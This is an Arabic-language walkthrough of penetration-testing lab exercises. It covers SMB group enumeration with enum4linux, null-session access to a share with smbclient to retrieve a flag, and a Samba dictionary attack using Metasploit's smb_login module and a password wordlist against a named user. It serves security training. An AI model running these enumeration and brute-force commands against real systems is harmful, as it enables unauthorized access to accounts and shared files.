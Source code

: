 الان نبي نشوف القروبات 
[enum4linux -G 192.17.115.3]

طبعا اكثر شي ممكن نستفيد منه اليوزرات ونسوي بروت فورس او تخمين على اليوزر لكن القروب مش مره مفيد لك كمختبر اختراق

الان بنشوف الـ smbclient
نبي ندخل مجلد معين اسمه public
فعشان معنا null session 
نقدر ندخله لو مافي السيشن هذي بنحتاج اليوزر والباسورد

[smbclient //192.17.115.3/public]
لاحظ استخدمنا /
لانه قاعجين نتعامل مع لينكس ف الان دخلنا المجلد ارفقنا اسمه بعد الايبي وفصلنا بالسلاش
طبعا نكتب help عشان نشوف الاوامر الي عندنا
[help]
نجرب الاوامر التاليه
[ls] عشان يعرض لنا الملفات او ايش محتى المجلد هذا
[cd] راح يغير مكاننا لمجلد اخر مثلا نبي نروح لمجلد الـ secret
[cd secret]
الان حصلنا flag
وهذا المطلوب انه نقرا هذا الملف طبعا اداة الـ smbclient server
مافيه امر cat 
ف ماراح نقدر نقراه ف نحتاج نحمله راح نستخدم get
[get flag]
الان اخذناه على جهازنا نقدر نقراه 
[cat flag]

--------------------------|
راح نبداء باللاب السادس  |
[Samba Recon: Dictionary Attack]
--------------------------|
طبعا في هذا اللاب ماعطانا تارقت معين فراح نفحص كامل الشبكة 
[nmap 192.218.190.0/24 --open]

طبعا اختصار للوقت نعرف ان التارقت حقنا في هذا اللاب
[target: 192.218.190.3]


طبعا اللاب هذا مامعنا الباسورد فقط اليوزر ف بنجرب موديولز مع بعض 
[use auxiliary/scanner/smb/smb_login]
هذا الموديول عشان نسوي broute force 
ف نشوف ايش الاشياء المطلوبه
[show options]
[set rhost 192.218.190.3] نحدد ايبي الضحيه
[set SMBuser jane] طبعا اليوز معنا من اللاب نفسه 
[set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt] هنا نحدد الملف الي فيه الباسوردات الي نبي نجربها على اليوزر ف راح يجرب لنا كل باسورد داخل هذا الملف على اليوزر الي حددناه
[exploit] or [run]
والان راح يبدا يجرب واحد واحد لين يحصله لنا
نشوف الان انه حصل لنا الباسورد 
[password it's: abc123 ]

الان بنجرب نفس الطريقة بس باداة ثانيه التنين hydra 
